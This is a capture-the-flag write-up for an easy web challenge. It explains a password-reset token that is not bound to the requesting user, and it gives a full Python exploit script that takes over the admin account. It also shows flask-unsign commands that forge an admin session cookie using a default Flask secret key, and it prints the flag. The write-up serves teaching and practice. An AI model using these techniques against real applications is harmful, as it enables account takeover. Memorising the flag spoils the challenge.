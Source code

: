 # Ben10

- **Category:** Web
- **Solves:** 360
- **Difficulty:** Easy
- **Author:** @gheddus

## Description

Ben Tennyson's Omnitrix holds a mysterious and powerful form called Materia Grigia — a creature that only those with the sharpest minds can access. It's hidden deep within the system, waiting for someone clever enough to unlock it. Only the smartest can access what’s truly hidden.

Can you outsmart the system and reveal the flag?

## Details

This challenge is inspired by a broken access control vulnerability found in the wild, where restricted resources were unexpectedly exposed. The idea behind this challenge is based on that very flaw, where access to certain features should have been locked down but wasn't.

## Solution

The first step is to register a new user on the application. After completing the registration, the user logs in using the same credentials (username and password) they just created.

Once logged in, the user navigates to the homepage, where a hidden section contains information about the admin. This data, located in an element with the ID `admin_data`, follows the format `admin^<username>^<random>`. The attacker’s goal is to extract the admin's username from this section.

After logging out, the user tries to reset the admin’s password. The reset token request is made using the previously registered username since admin users can not request it due to the application security policy. The reset token is not properly validated against the requesting user and as a result, the attacker can use the reset token to change the admin's password.

The attacker logs in with the admin username and the new password. This grants the attacker access to the admin’s account, bypassing the intended access control. Finally, the attacker visits a page that contains the flag (the image with ben10), successfully retrieving it.

**Python script:**
```python
import requests
import re
import random
import string
from bs4 import BeautifulSoup

def extract_admin_data(html):
    soup = BeautifulSoup(html, 'html.parser')
    admin_data = soup.find(id="admin_data")
    if admin_data:
        match = re.match(r"admin\^.+?\^.+", admin_data.text)
        if match:
            return match.group(0)
    return None

def extract_reset_token(html):
    soup = BeautifulSoup(html, 'html.parser')
    reset_token_info = soup.find('p')
    if reset_token_info and "Your reset token is:" in reset_token_info.text:
        token_match = re.search(r"Your reset token is: (\w+)", reset_token_info.text)
        if token_match:
            return token_match.group(1)
    return None

def extract_flag(html):
    soup = BeautifulSoup(html, 'html.parser')
    flag_text = soup.find('p', class_='error').get_text()
    flag = re.search(r'srdnlen\{.*?\}', flag_text)
    return flag.group(0) if flag else None

req = requests.session()
url = "http://localhost:5000"
user = "testuser"

# register a new user, login, and grab the admin username
registration = req.post(url + "/register", data={"username": user, "password": user})
login = req.post(url + "/login", data={"username": user, "password": user})
home = req.get(url + "/home")
admin_username = extract_admin_data(home.text)
# print(admin_username)

# start with a fresh session, request the reset password for the registed user
req = requests.session()
reset_password = req.post(url + "/reset_password", data={"username": user})
reset_token = extract_reset_token(reset_password.text)
# print(reset_token)

# use the reset token to change the admin's password (access control vulnerability here)
forgot_password = req.post(url + "/forgot_password", data={
    "username": admin_username, "reset_token": reset_token, "new_password": user, "confirm_password": user
})

# login and grab the flag
login = req.post(url + "/login", data={"username": admin_username, "password": user})
ben10 = req.get(url + "/image/ben10")
flag = extract_flag(ben10.text)

print(flag)
# flag = srdnlen{b3n_l0v3s_br0k3n_4cc355_c0ntr0l_vulns}
```

## Unintended Solution
I completely forgot to change the Flask's `app.secret_key` on the server. This resulted in an unintended solution where the secret used to sign the cookies was exposed, allowing users to successfully sign arbitrary session cookies using the known `app.secret_key=your_secret_key`.

```shell
$ flask-unsign --decode --cookie 'eyJ1c2VybmFtZSI6InRlc3QifQ.Z5EO9A.L_61GQGElWglQmZs6N7APg17AKo'
{'username': 'test'}

$ flask-unsign --sign --cookie "{'username': 'admin'}" --secret 'your_secret_key'
eyJ1c2VybmFtZSI6ImFkbWluIn0.Z5EPSg.J6pEfgm3s510HmoWew8JPbnwKLE

# login in the application

# grab the flag visiting /image/ben10

# flag = srdnlen{b3n_l0v3s_br0k3n_4cc355_c0ntr0l_vulns}
```